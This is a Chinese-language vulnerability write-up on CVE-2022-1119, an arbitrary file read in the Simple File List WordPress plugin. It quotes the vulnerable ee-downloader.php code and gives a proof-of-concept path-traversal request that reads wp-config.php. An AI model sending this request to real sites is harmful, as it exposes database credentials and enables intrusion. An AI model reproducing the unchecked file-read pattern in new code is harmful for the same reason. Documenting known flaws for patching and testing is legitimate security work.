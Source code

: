 # WordPress Simple File List ee-downloader.php 任意文件读取漏洞 CVE-2022-1119

## 漏洞描述

WordPress Simple File List插件 ee-downloader.php文件存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的任意文件

## 漏洞影响

<a-checkbox checked>WordPress Simple File List < 3.2.8</a-checkbox></br>

## 插件名

<a-checkbox checked>Simple File List</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/simple-file-list.3.2.17.zip</a-checkbox></br>

## 漏洞复现

存在漏洞的文件为 `wp-content/plugins/simple-file-list/includes/ee-downloader.php`

![img](/assets/PeiQi-Wiki/img/1656833917266-d2d288f0-265a-426f-9096-b89b600be62a.png)

```php
<?php // Simple File List - ee-downloader.php - rev 1.19 - mitchellbennis@gmail.com

// Force File to Download
// This script is accessed via javascript on ee-download.php 

$eeFile =  filter_var($_GET['eeFile'], FILTER_SANITIZE_STRING, FILTER_FLAG_ENCODE_LOW);

if(is_readable($eeFile)) {

    header('Pragma: public'); // required
    header('Expires: 0'); // no cache
    header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
    header('Last-Modified: '. gmdate ('D, d M Y H:i:s', filemtime ($eeFile)) .' GMT');
    header('Cache-Control: private',false);
    header('Content-Type: ' . mime_content_type($eeFile) );
    header('Content-Disposition: attachment; filename="'. basename($eeFile) .'"');
    // header('Content-Transfer-Encoding: binary');
    header('Content-Length: '. filesize($eeFile)); // provide file size
    header('Connection: close');
    readfile($eeFile); // Start the download

}
?>
```

直接传参获取文件信息, 验证POC

```php
/wp-content/plugins/simple-file-list/includes/ee-downloader.php?eeFile=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/wp-config.php
```

![img](/assets/PeiQi-Wiki/img/1656833959273-cb7b870d-acb3-4804-88c2-ca3531195dc7.png)